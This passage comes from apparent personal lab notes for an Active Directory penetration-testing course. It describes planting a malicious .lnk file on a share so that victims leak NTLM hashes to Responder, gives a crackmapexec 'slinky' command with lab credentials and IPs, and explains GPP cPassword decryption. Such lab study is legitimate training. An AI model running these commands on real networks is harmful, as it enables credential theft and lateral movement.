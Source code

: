 > [!warning] Esempio Callout
> <span style="background:#fff88f">The commands showed for Poweshell:</span>
> - must be done in a Windows machine
> - can be whatever windows machine =>  not necessarily the victim machine
> - PowerShell must be an--> elevate shell

what we are doing with these commands:
- we are creating a link file
- save it inside C drive as --> `C:\@test.lnk`
- the file will try to:
	- resolve an png image
	- bind to the `ATTACKER IP`

When we have typed all the commands:
- go to C and put the `@` -->  as first letter of the name of the file
- copy the @test.lnk file inside -->  `\\HYDRA-DC/hackme`

From the attacker machine:
- run [[cheat#Responder]]
- `sudo python3 Responder.py -I vmnet8 -dPv`
  ![[Pasted image 20240303130457.png]]

Now:
if we navigate inside the HYDRA-DC/hackme in the Windows machine
=>
<span style="color:#00b050">we'll capture the hash inside Responder</span>
![[Pasted image 20240303130539.png]]

##### Automate the attack
we can automate this attack using -->  [[cheat#crackmapexec]]
`crackmapexec smb 172.16.214.130 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=172.16.214.1

`172.16.214.130` -->  victim IP (THEPUNISHER)
`172.16.214.1` -->  attacker IP

#### GPP Attacks (cPassword Attacks)
#AD_tool
This is an old attack
=> (no lab but it's still important to know it)

what this attack is:
- Group Policy Preferences (GPP) allowed admins to -->  create policies using embedded 
                                                 credentials
- These credentials were encrypted and placed in a -->  "cPassword"
- The key was accidentally released to this cPassword
  =>
  these password <span style="color:#00b050">could be decrypted</span>

- attack was patched in -->  MS14-025
- but <span style="color:#00b050">I</span><span style="color:#00b050">T DOES NOT PREVENT</span> -->  previous uses
  =>
  still relevant
  bc if these older files were never deleted =>  - these passwords still exist
                                         - they still could work in the environment
